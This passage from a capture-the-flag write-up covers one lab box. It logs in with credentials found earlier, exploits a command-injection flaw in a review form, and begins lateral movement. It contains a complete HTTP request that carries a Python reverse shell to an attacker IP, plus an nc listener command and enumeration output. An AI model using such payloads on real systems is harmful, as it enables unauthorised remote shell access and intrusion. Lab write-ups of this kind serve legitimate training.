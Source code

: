 Connecting to http://10.10.8.67:8080/login with `bob:d1ff3r3ntP@55w0rd` (credentials gathered on the FTP service) leads to a page with links to the 6 blog pages, the review page, and a form to post a review.

The form doesn't sanitize the user input and actually execute the commands we enter. We can use this to post a reverse shell as follows:

~~~
POST /blog HTTP/1.1
Host: 10.10.8.67:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.8.67:8080/blog
Content-Type: application/x-www-form-urlencoded
Content-Length: 236
Connection: close
Upgrade-Insecure-Requests: 1

review=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.50.72",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
~~~

Now, open a listener (`rlwrap nc -nlvp 4444`) and browse the review page:

~~~
$ curl -s http://10.10.8.67:8080/review
~~~

You now have a reverse shell.

## Lateral move

### bobloblaw's files

Unfortunately, we can't read the user flag, likely located in `bobloblaw`'s home because of our limited permissions.

~~~
www-data@bobloblaw-VirtualBox:/home$ ls -la
ls -la
total 16
drwxr-xr-x  4 root      root      4096 Jul 25 14:07 .
drwxr-xr-x 25 root      root      4096 Jul 28 17:13 ..
dr-xr-xr-x  3 bob       bob       4096 Jul 25 14:08 bob
drwxrwx--- 16 bobloblaw bobloblaw 4096 Aug  6 14:51 bobloblaw
~~~

Listing the files owned by `bobloblaw` reveals an interesting binary:

~~~
www-data@bobloblaw-VirtualBox:/home$ find / -type f -user bobloblaw 2>/dev/null
/usr/bin/blogFeedback
~~~
